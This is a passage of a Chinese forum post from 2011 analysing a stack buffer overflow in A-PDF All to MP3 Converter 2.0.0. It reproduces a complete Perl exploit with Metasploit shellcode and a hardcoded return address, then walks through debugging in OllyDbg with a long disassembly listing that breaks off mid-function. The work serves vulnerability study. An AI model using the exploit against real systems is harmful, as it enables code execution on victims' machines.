

# A-PDF All to MP3 Converter 2.0.0 (.wav) Buffer Overflow Exploit 分析

> 原文：[`www.pediy.com/kssd/pediy12/128351.html`](https://www.pediy.com/kssd/pediy12/128351.html)

【原创】A-PDF All to MP3 Converter 2.0.0 (.wav) Buffer Overflow Exploit 分析

作 者: kkmylove

时 间: 2011-01-19

链 接: http://bbs.pediy.com/showthread.php?t=128351

Exp 来源：http://www.exploit-db.com/exploits/16009/

看到 `exploit-db` 上出来这个漏洞，就分析了一下。入门阶段的文章，高手飘过。

先看下 `exp`

```
# Exploit Title: A-PDF All to MP3 Converter v.2.0.0 stack based buffer overflow
# Software Link: http://www.a-pdf.com/all-to-mp3/download.htm
# Version: <= 2.0.0
# Tested on: Win XP SP3 French
# Date: 17/01/2011
# Author: h1ch4m
#Email: h1ch4m@live.fr
#Home: http://Net-Effects.blogspot.com
# triggering details: Open the app, drag the wav file, booom cmd pops out

my $file= "1.wav";
my $junk = "\\x41" x 4128;
my $EIP = pack('V', 0x7c86467b); # JMP ESP (ff e4) kernel32.dll

# windows/exec - 220 bytes
# http://www.metasploit.com
# Encoder: x86/call4_dword_xor
# EXITFUNC=seh, CMD=cmd
my $shellcode = "\\x29\\xc9\\x83\\xe9\\xcf\\xe8\\xff\\xff\\xff\\xff\\xc0\\x5e\\x81\\x76" .
"\\x0e\\xd1\\xd1\\xc1\\x66\\x83\\xee\\xfc\\xe2\\xf4\\x2d\\x39\\x48\\x66" .
"\\xd1\\xd1\\xa1\\xef\\x34\\xe0\\x13\\x02\\x5a\\x83\\xf1\\xed\\x83\\xdd" .
"\\x4a\\x34\\xc5\\x5a\\xb3\\x4e\\xde\\x66\\x8b\\x40\\xe0\\x2e\\xf0\\xa6" .
"\\x7d\\xed\\xa0\\x1a\\xd3\\xfd\\xe1\\xa7\\x1e\\xdc\\xc0\\xa1\\x33\\x21" .
"\\x93\\x31\\x5a\\x83\\xd1\\xed\\x93\\xed\\xc0\\xb6\\x5a\\x91\\xb9\\xe3" .
"\\x11\\xa5\\x8b\\x67\\x01\\x81\\x4a\\x2e\\xc9\\x5a\\x99\\x46\\xd0\\x02" .
"\\x22\\x5a\\x98\\x5a\\xf5\\xed\\xd0\\x07\\xf0\\x99\\xe0\\x11\\x6d\\xa7" .
"\\x1e\\xdc\\xc0\\xa1\\xe9\\x31\\xb4\\x92\\xd2\\xac\\x39\\x5d\\xac\\xf5" .
"\\xb4\\x84\\x89\\x5a\\x99\\x42\\xd0\\x02\\xa7\\xed\\xdd\\x9a\\x4a\\x3e" .
"\\xcd\\xd0\\x12\\xed\\xd5\\x5a\\xc0\\xb6\\x58\\x95\\xe5\\x42\\x8a\\x8a" .
"\\xa0\\x3f\\x8b\\x80\\x3e\\x86\\x89\\x8e\\x9b\\xed\\xc3\\x3a\\x47\\x3b" .
"\\xbb\\xd0\\x4c\\xe3\\x68\\xd1\\xc1\\x66\\x81\\xb9\\xf0\\xed\\xbe\\x56" .
"\\x3e\\xb3\\x6a\\x2f\\xcf\\x54\\x3b\\xb9\\x67\\xf3\\x6c\\x4c\\x3e\\xb3" .
"\\xed\\xd7\\xbd\\x6c\\x51\\x2a\\x21\\x13\\xd4\\x6a\\x86\\x75\\xa3\\xbe" .
"\\xab\\x66\\x82\\x2e\\x14\\x05\\xbc\\xb5\\xc1\\x66";

open($FILE,">$file");
print $FILE $junk.$EIP.$shellcode;
close($FILE);
```

功能是打开 `cmd`。先用脚本生成 `1.wav`

`OD` 载入程序，`F9` 运行

点击 `Next->Add`

下 `ReadFile` 下断点 然后载入 `1.wav`

程序断了下来，看下看下 `buffer` 参数，在数据窗口中跟随。

然后按 `ctrl+F9` 运行到函数结尾。如图一



很清楚的看到 `buffer` 的四个字节的内容是 `41414141`，

多按几次 `F9` 发现程序不断的取得 `41`，

可以猜想一下程序运行一个循环，然后不断的写数据到局部变量，由于数据长度过长导致返回地址被覆盖。呵呵

我们往上层函数继续跟，看看能不能找到这个循环。

往上跟了 `3` 层后找到一个函数

代码:


```
004AC77C  /$  53            push ebx                                 ;  漏洞函数入口
004AC77D  |.  56            push esi
004AC77E  |.  57            push edi
004AC77F  |.  55            push ebp
004AC780  |.  81C4 04F0FFFF add esp,-0xFFC
004AC786  |.  50            push eax
004AC787  |.  83C4 E4       add esp,-0x1C
004AC78A  |.  8BD8          mov ebx,eax
004AC78C  |.  C743 38 00000>mov dword ptr ds:[ebx+0x38],0x0
004AC793  |.  C743 3C 00000>mov dword ptr ds:[ebx+0x3C],0x0
004AC79A  |.  33C0          xor eax,eax
004AC79C  |.  8983 9C000000 mov dword ptr ds:[ebx+0x9C],eax
004AC7A2  |.  33C0          xor eax,eax
004AC7A4  |.  8983 A4000000 mov dword ptr ds:[ebx+0xA4],eax
004AC7AA  |.  33C0          xor eax,eax
004AC7AC  |.  8983 A0000000 mov dword ptr ds:[ebx+0xA0],eax
004AC7B2  |.  C683 B0400000>mov byte ptr ds:[ebx+0x40B0],0x0
004AC7B9  |.  33FF          xor edi,edi
004AC7BB  |.  BE 04000000   mov esi,0x4
004AC7C0  |.  8D5424 0C     lea edx,dword ptr ss:[esp+0xC]
004AC7C4  |.  B9 04000000   mov ecx,0x4
004AC7C9  |.  8B43 60       mov eax,dword ptr ds:[ebx+0x60]
004AC7CC  |.  8B28          mov ebp,dword ptr ds:[eax]
004AC7CE  |.  FF55 0C       call [arg.2]
004AC7D1  |.  81FE 00200000 cmp esi,0x2000
004AC7D7  |.  0F8D 3E050000 jge Alltomp3.004ACD1B
004AC7DD  |>  8BC7          /mov eax,edi
004AC7DF  |.  83F8 04       |cmp eax,0x4                             ;  Switch (cases 0..4)
004AC7E2  |.  0F87 FD040000 |ja Alltomp3.004ACCE5
004AC7E8  |.  FF2485 EFC74A>|jmp dword ptr ds:[eax*4+0x4AC7EF]
004AC7EF  |.  03C84A00      |dd Alltomp3.004AC803                    ;  分支表 被用于 004AC7E8
004AC7F3  |.  4AC84A00      |dd Alltomp3.004AC84A
004AC7F7  |.  91C84A00      |dd Alltomp3.004AC891
004AC7FB  |.  51CB4A00      |dd Alltomp3.004ACB51
004AC7FF  |.  45CC4A00      |dd Alltomp3.004ACC45
004AC803  |>  BA 30CD4A00   |mov edx,Alltomp3.004ACD30               ;  ASCII "RIFF"; Case 0 of switch 004AC7DF
004AC808  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004AC80C  |.  E8 B7F3FFFF   |call Alltomp3.004ABBC8
004AC811  |.  84C0          |test al,al
004AC813  |.  75 17         |jnz short Alltomp3.004AC82C
004AC815  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC819  |.  B9 01000000   |mov ecx,0x1
004AC81E  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC821  |.  8B28          |mov ebp,dword ptr ds:[eax]
004AC823  |.  FF55 0C       |call [arg.2]
004AC826  |.  46            |inc esi
004AC827  |.  E9 B9040000   |jmp Alltomp3.004ACCE5
004AC82C  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC830  |.  B9 04000000   |mov ecx,0x4
004AC835  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC838  |.  8B38          |mov edi,dword ptr ds:[eax]
004AC83A  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004AC83D  |.  83C6 04       |add esi,0x4
004AC840  |.  BF 01000000   |mov edi,0x1
004AC845  |.  E9 9B040000   |jmp Alltomp3.004ACCE5
004AC84A  |>  BA 38CD4A00   |mov edx,Alltomp3.004ACD38               ;  ASCII "WAVE"; Case 1 of switch 004AC7DF
004AC84F  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004AC853  |.  E8 70F3FFFF   |call Alltomp3.004ABBC8
004AC858  |.  84C0          |test al,al
004AC85A  |.  75 17         |jnz short Alltomp3.004AC873
004AC85C  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC860  |.  B9 01000000   |mov ecx,0x1
004AC865  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC868  |.  8B28          |mov ebp,dword ptr ds:[eax]
004AC86A  |.  FF55 0C       |call [arg.2]
004AC86D  |.  46            |inc esi
004AC86E  |.  E9 72040000   |jmp Alltomp3.004ACCE5
004AC873  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC877  |.  B9 04000000   |mov ecx,0x4
004AC87C  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC87F  |.  8B38          |mov edi,dword ptr ds:[eax]
004AC881  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004AC884  |.  83C6 04       |add esi,0x4
004AC887  |.  BF 02000000   |mov edi,0x2
004AC88C  |.  E9 54040000   |jmp Alltomp3.004ACCE5
004AC891  |>  BA 40CD4A00   |mov edx,Alltomp3.004ACD40               ;  ASCII "fmt "; Case 2 of switch 004AC7DF
004AC896  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004AC89A  |.  E8 29F3FFFF   |call Alltomp3.004ABBC8
004AC89F  |.  84C0          |test al,al
004AC8A1  |.  75 53         |jnz short Alltomp3.004AC8F6
004AC8A3  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC8A7  |.  B9 04000000   |mov ecx,0x4
004AC8AC  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC8AF  |.  8B28          |mov ebp,dword ptr ds:[eax]
004AC8B1  |.  FF55 0C       |call [arg.2]
004AC8B4  |.  83C6 04       |add esi,0x4
004AC8B7  |.  8D5424 08     |lea edx,dword ptr ss:[esp+0x8]
004AC8BB  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004AC8BF  |.  B9 04000000   |mov ecx,0x4
004AC8C4  |.  E8 1B64F5FF   |call Alltomp3.00402CE4
004AC8C9  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC8CD  |.  8B4C24 08     |mov ecx,dword ptr ss:[esp+0x8]
004AC8D1  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC8D4  |.  8B28          |mov ebp,dword ptr ds:[eax]
004AC8D6  |.  FF55 0C       |call [arg.2]
004AC8D9  |.  037424 08     |add esi,dword ptr ss:[esp+0x8]
004AC8DD  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC8E1  |.  B9 04000000   |mov ecx,0x4
004AC8E6  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC8E9  |.  8B28          |mov ebp,dword ptr ds:[eax]
004AC8EB  |.  FF55 0C       |call [arg.2]
004AC8EE  |.  83C6 04       |add esi,0x4
004AC8F1  |.  E9 EF030000   |jmp Alltomp3.004ACCE5
004AC8F6  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC8FA  |.  B9 04000000   |mov ecx,0x4
004AC8FF  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC902  |.  8B38          |mov edi,dword ptr ds:[eax]
004AC904  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004AC907  |.  83C6 04       |add esi,0x4
004AC90A  |.  8D5424 08     |lea edx,dword ptr ss:[esp+0x8]
004AC90E  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004AC912  |.  B9 04000000   |mov ecx,0x4
004AC917  |.  E8 C863F5FF   |call Alltomp3.00402CE4
004AC91C  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004AC920  |.  8B4C24 08     |mov ecx,dword ptr ss:[esp+0x8]
004AC924  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004AC927  |.  8B38          |mov edi,dword ptr ds:[eax]
004AC929  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004AC92C  |.  037424 08     |add esi,dword ptr ss:[esp+0x8]
004AC930  |.  8BD4          |mov edx,esp
004AC932  |.  8BC6          |mov eax,esi
004AC934  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004AC938  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004AC93C  |.  B9 02000000   |mov ecx,0x2
004AC941  |.  E8 9E63F5FF   |call Alltomp3.00402CE4
004AC946  |.  0FB70424      |movzx eax,word ptr ss:[esp]
004AC94A  |.  83F8 11       |cmp eax,0x11                            ;  Switch (cases 1..FFFE)
004AC94D  |.  7F 10         |jg short Alltomp3.004AC95F
004AC94F  |.  74 28         |je short Alltomp3.004AC979
004AC951  |.  48            |dec eax
004AC952  |.  74 1C         |je short Alltomp3.004AC970
004AC954  |.  48            |dec eax
004AC955  |.  74 2B         |je short Alltomp3.004AC982
004AC957  |.  48            |dec eax
004AC958  |.  74 3A         |je short Alltomp3.004AC994
004AC95A  |.  E9 C3030000   |jmp Alltomp3.004ACD22
004AC95F  |>  83E8 55       |sub eax,0x55
004AC962  |.  74 27         |je short Alltomp3.004AC98B
004AC964  |.  2D A9FF0000   |sub eax,0xFFA9
004AC969  |.  74 32         |je short Alltomp3.004AC99D
004AC96B  |.  E9 B2030000   |jmp Alltomp3.004ACD22
004AC970  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x1        ;  Case 1 (WM_CREATE) of switch 004AC94A
004AC977  |.  EB 2B         |jmp short Alltomp3.004AC9A4
004AC979  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x2        ;  Case 11 (WM_QUERYENDSESSION) of switch 004AC94A
004AC980  |.  EB 22         |jmp short Alltomp3.004AC9A4
004AC982  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x3        ;  Case 2 (WM_DESTROY) of switch 004AC94A
004AC989  |.  EB 19         |jmp short Alltomp3.004AC9A4
004AC98B  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x4        ;  Case 55 (WM_NOTIFYFORMAT) of switch 004AC94A
004AC992  |.  EB 10         |jmp short Alltomp3.004AC9A4
004AC994  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x5        ;  Case 3 (WM_MOVE) of switch 004AC94A
004AC99B  |.  EB 07         |jmp short Alltomp3.004AC9A4
004AC99D  |>  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x6        ;  Case FFFE of switch 004AC94A
004AC9A4  |>  8BD4          |mov edx,esp
004AC9A6  |.  8D46 02       |lea eax,dword ptr ds:[esi+0x2]
004AC9A9  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004AC9AD  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004AC9B1  |.  B9 02000000   |mov ecx,0x2
004AC9B6  |.  E8 2963F5FF   |call Alltomp3.00402CE4
004AC9BB  |.  0FB70424      |movzx eax,word ptr ss:[esp]
004AC9BF  |.  8983 A4000000 |mov dword ptr ds:[ebx+0xA4],eax
004AC9C5  |.  8D5424 04     |lea edx,dword ptr ss:[esp+0x4]
004AC9C9  |.  8D46 04       |lea eax,dword ptr ds:[esi+0x4]
004AC9CC  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004AC9D0  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004AC9D4  |.  B9 04000000   |mov ecx,0x4
004AC9D9  |.  E8 0663F5FF   |call Alltomp3.00402CE4
004AC9DE  |.  8B4424 04     |mov eax,dword ptr ss:[esp+0x4]
004AC9E2  |.  8983 A0000000 |mov dword ptr ds:[ebx+0xA0],eax
004AC9E8  |.  8BD4          |mov edx,esp
004AC9EA  |.  8D46 0C       |lea eax,dword ptr ds:[esi+0xC]
004AC9ED  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004AC9F1  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004AC9F5  |.  B9 02000000   |mov ecx,0x2
004AC9FA  |.  E8 E562F5FF   |call Alltomp3.00402CE4
004AC9FF  |.  80BB B0400000>|cmp byte ptr ds:[ebx+0x40B0],0x2
004ACA06  |.  75 0D         |jnz short Alltomp3.004ACA15
004ACA08  |.  66:8B0424     |mov ax,word ptr ss:[esp]
004ACA0C  |.  66:8983 B4400>|mov word ptr ds:[ebx+0x40B4],ax
004ACA13  |.  EB 0B         |jmp short Alltomp3.004ACA20
004ACA15  |>  66:8B0424     |mov ax,word ptr ss:[esp]
004ACA19  |.  66:8983 C4400>|mov word ptr ds:[ebx+0x40C4],ax
004ACA20  |>  8BD4          |mov edx,esp
004ACA22  |.  8D46 0E       |lea eax,dword ptr ds:[esi+0xE]
004ACA25  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004ACA29  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004ACA2D  |.  B9 02000000   |mov ecx,0x2
004ACA32  |.  E8 AD62F5FF   |call Alltomp3.00402CE4
004ACA37  |.  0FB70424      |movzx eax,word ptr ss:[esp]
004ACA3B  |.  8983 9C000000 |mov dword ptr ds:[ebx+0x9C],eax
004ACA41  |.  80BB B0400000>|cmp byte ptr ds:[ebx+0x40B0],0x6
004ACA48  |.  75 51         |jnz short Alltomp3.004ACA9B
004ACA4A  |.  8D9424 0C1000>|lea edx,dword ptr ss:[esp+0x100C]
004ACA51  |.  8D4434 FC     |lea eax,dword ptr ss:[esp+esi-0x4]
004ACA55  |.  B9 10000000   |mov ecx,0x10
004ACA5A  |.  E8 8562F5FF   |call Alltomp3.00402CE4
004ACA5F  |.  8B15 C0A04F00 |mov edx,dword ptr ds:[0x4FA0C0]         ;  Alltomp3.004F8B14
004ACA65  |.  8D8424 0C1000>|lea eax,dword ptr ss:[esp+0x100C]
004ACA6C  |.  E8 5B54FFFF   |call Alltomp3.004A1ECC
004ACA71  |.  84C0          |test al,al
004ACA73  |.  74 09         |je short Alltomp3.004ACA7E
004ACA75  |.  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x7
004ACA7C  |.  EB 1D         |jmp short Alltomp3.004ACA9B
004ACA7E  |>  8B15 6C9D4F00 |mov edx,dword ptr ds:[0x4F9D6C]         ;  Alltomp3.004F8B04
004ACA84  |.  8D8424 0C1000>|lea eax,dword ptr ss:[esp+0x100C]
004ACA8B  |.  E8 3C54FFFF   |call Alltomp3.004A1ECC
004ACA90  |.  84C0          |test al,al
004ACA92  |.  75 07         |jnz short Alltomp3.004ACA9B
004ACA94  |.  C683 B0400000>|mov byte ptr ds:[ebx+0x40B0],0x0
004ACA9B  |>  8A83 B0400000 |mov al,byte ptr ds:[ebx+0x40B0]
004ACAA1  |.  04 FE         |add al,0xFE
004ACAA3  |.  2C 03         |sub al,0x3
004ACAA5  |.  0F83 88000000 |jnb Alltomp3.004ACB33
004ACAAB  |.  8BD4          |mov edx,esp
004ACAAD  |.  8D46 12       |lea eax,dword ptr ds:[esi+0x12]
004ACAB0  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004ACAB4  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004ACAB8  |.  B9 02000000   |mov ecx,0x2
004ACABD  |.  E8 2262F5FF   |call Alltomp3.00402CE4
004ACAC2  |.  80BB B0400000>|cmp byte ptr ds:[ebx+0x40B0],0x2
004ACAC9  |.  75 0D         |jnz short Alltomp3.004ACAD8
004ACACB  |.  66:8B0424     |mov ax,word ptr ss:[esp]
004ACACF  |.  66:8983 B6400>|mov word ptr ds:[ebx+0x40B6],ax
004ACAD6  |.  EB 0B         |jmp short Alltomp3.004ACAE3
004ACAD8  |>  66:8B0424     |mov ax,word ptr ss:[esp]
004ACADC  |.  66:8983 C6400>|mov word ptr ds:[ebx+0x40C6],ax
004ACAE3  |>  80BB B0400000>|cmp byte ptr ds:[ebx+0x40B0],0x3
004ACAEA  |.  75 40         |jnz short Alltomp3.004ACB2C
004ACAEC  |.  8BD4          |mov edx,esp
004ACAEE  |.  8D46 14       |lea eax,dword ptr ds:[esi+0x14]
004ACAF1  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004ACAF5  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004ACAF9  |.  B9 02000000   |mov ecx,0x2
004ACAFE  |.  E8 E161F5FF   |call Alltomp3.00402CE4
004ACB03  |.  66:8B0424     |mov ax,word ptr ss:[esp]
004ACB07  |.  66:8983 CC400>|mov word ptr ds:[ebx+0x40CC],ax
004ACB0E  |.  0FB7C0        |movzx eax,ax
004ACB11  |.  8BC8          |mov ecx,eax
004ACB13  |.  C1E1 02       |shl ecx,0x2
004ACB16  |.  8D93 CE400000 |lea edx,dword ptr ds:[ebx+0x40CE]
004ACB1C  |.  8D46 16       |lea eax,dword ptr ds:[esi+0x16]
004ACB1F  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004ACB23  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004ACB27  |.  E8 B861F5FF   |call Alltomp3.00402CE4
004ACB2C  |>  BF 03000000   |mov edi,0x3
004ACB31  |.  EB 05         |jmp short Alltomp3.004ACB38
004ACB33  |>  BF 04000000   |mov edi,0x4
004ACB38  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACB3C  |.  B9 04000000   |mov ecx,0x4
004ACB41  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACB44  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACB46  |.  FF55 0C       |call [arg.2]
004ACB49  |.  83C6 04       |add esi,0x4
004ACB4C  |.  E9 94010000   |jmp Alltomp3.004ACCE5
004ACB51  |>  BA 48CD4A00   |mov edx,Alltomp3.004ACD48               ;  ASCII "fact"; Case 3 of switch 004AC7DF
004ACB56  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004ACB5A  |.  E8 69F0FFFF   |call Alltomp3.004ABBC8
004ACB5F  |.  84C0          |test al,al
004ACB61  |.  75 53         |jnz short Alltomp3.004ACBB6
004ACB63  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACB67  |.  B9 04000000   |mov ecx,0x4
004ACB6C  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACB6F  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACB71  |.  FF55 0C       |call [arg.2]
004ACB74  |.  83C6 04       |add esi,0x4
004ACB77  |.  8D5424 08     |lea edx,dword ptr ss:[esp+0x8]
004ACB7B  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004ACB7F  |.  B9 04000000   |mov ecx,0x4
004ACB84  |.  E8 5B61F5FF   |call Alltomp3.00402CE4
004ACB89  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACB8D  |.  8B4C24 08     |mov ecx,dword ptr ss:[esp+0x8]
004ACB91  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACB94  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACB96  |.  FF55 0C       |call [arg.2]
004ACB99  |.  037424 08     |add esi,dword ptr ss:[esp+0x8]
004ACB9D  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACBA1  |.  B9 04000000   |mov ecx,0x4
004ACBA6  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACBA9  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACBAB  |.  FF55 0C       |call [arg.2]
004ACBAE  |.  83C6 04       |add esi,0x4
004ACBB1  |.  E9 2F010000   |jmp Alltomp3.004ACCE5
004ACBB6  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACBBA  |.  B9 04000000   |mov ecx,0x4
004ACBBF  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACBC2  |.  8B38          |mov edi,dword ptr ds:[eax]
004ACBC4  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004ACBC7  |.  83C6 04       |add esi,0x4
004ACBCA  |.  8D5424 08     |lea edx,dword ptr ss:[esp+0x8]
004ACBCE  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004ACBD2  |.  B9 04000000   |mov ecx,0x4
004ACBD7  |.  E8 0861F5FF   |call Alltomp3.00402CE4
004ACBDC  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACBE0  |.  8B4C24 08     |mov ecx,dword ptr ss:[esp+0x8]
004ACBE4  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACBE7  |.  8B38          |mov edi,dword ptr ds:[eax]
004ACBE9  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004ACBEC  |.  037424 08     |add esi,dword ptr ss:[esp+0x8]
004ACBF0  |.  8D5424 04     |lea edx,dword ptr ss:[esp+0x4]
004ACBF4  |.  8BC6          |mov eax,esi
004ACBF6  |.  2B4424 08     |sub eax,dword ptr ss:[esp+0x8]
004ACBFA  |.  8D4404 0C     |lea eax,dword ptr ss:[esp+eax+0xC]
004ACBFE  |.  B9 04000000   |mov ecx,0x4
004ACC03  |.  E8 DC60F5FF   |call Alltomp3.00402CE4
004ACC08  |.  80BB B0400000>|cmp byte ptr ds:[ebx+0x40B0],0x2
004ACC0F  |.  75 0C         |jnz short Alltomp3.004ACC1D
004ACC11  |.  8B4424 04     |mov eax,dword ptr ss:[esp+0x4]
004ACC15  |.  8983 B8400000 |mov dword ptr ds:[ebx+0x40B8],eax
004ACC1B  |.  EB 0A         |jmp short Alltomp3.004ACC27
004ACC1D  |>  8B4424 04     |mov eax,dword ptr ss:[esp+0x4]
004ACC21  |.  8983 C8400000 |mov dword ptr ds:[ebx+0x40C8],eax
004ACC27  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACC2B  |.  B9 04000000   |mov ecx,0x4
004ACC30  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACC33  |.  8B38          |mov edi,dword ptr ds:[eax]
004ACC35  |.  FF57 0C       |call dword ptr ds:[edi+0xC]
004ACC38  |.  83C6 04       |add esi,0x4
004ACC3B  |.  BF 04000000   |mov edi,0x4
004ACC40  |.  E9 A0000000   |jmp Alltomp3.004ACCE5
004ACC45  |>  BA 50CD4A00   |mov edx,Alltomp3.004ACD50               ;  ASCII "data"; Case 4 of switch 004AC7DF
004ACC4A  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004ACC4E  |.  E8 75EFFFFF   |call Alltomp3.004ABBC8
004ACC53  |.  84C0          |test al,al
004ACC55  |.  75 50         |jnz short Alltomp3.004ACCA7
004ACC57  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACC5B  |.  B9 04000000   |mov ecx,0x4
004ACC60  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACC63  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACC65  |.  FF55 0C       |call [arg.2]
004ACC68  |.  83C6 04       |add esi,0x4
004ACC6B  |.  8D5424 08     |lea edx,dword ptr ss:[esp+0x8]
004ACC6F  |.  8D4434 08     |lea eax,dword ptr ss:[esp+esi+0x8]
004ACC73  |.  B9 04000000   |mov ecx,0x4
004ACC78  |.  E8 6760F5FF   |call Alltomp3.00402CE4
004ACC7D  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACC81  |.  8B4C24 08     |mov ecx,dword ptr ss:[esp+0x8]
004ACC85  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACC88  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACC8A  |.  FF55 0C       |call [arg.2]
004ACC8D  |.  037424 08     |add esi,dword ptr ss:[esp+0x8]
004ACC91  |.  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
004ACC95  |.  B9 04000000   |mov ecx,0x4
004ACC9A  |.  8B43 60       |mov eax,dword ptr ds:[ebx+0x60]
004ACC9D  |.  8B28          |mov ebp,dword ptr ds:[eax]
004ACC9F  |.  FF55 0C       |call [arg.2]
004ACCA2  |.  83C6 04       |add esi,0x4
004ACCA5  |.  EB 3E         |jmp short Alltomp3.004ACCE5
004ACCA7  |>  8D5434 0C     |lea edx,dword ptr ss:[esp+esi+0xC]
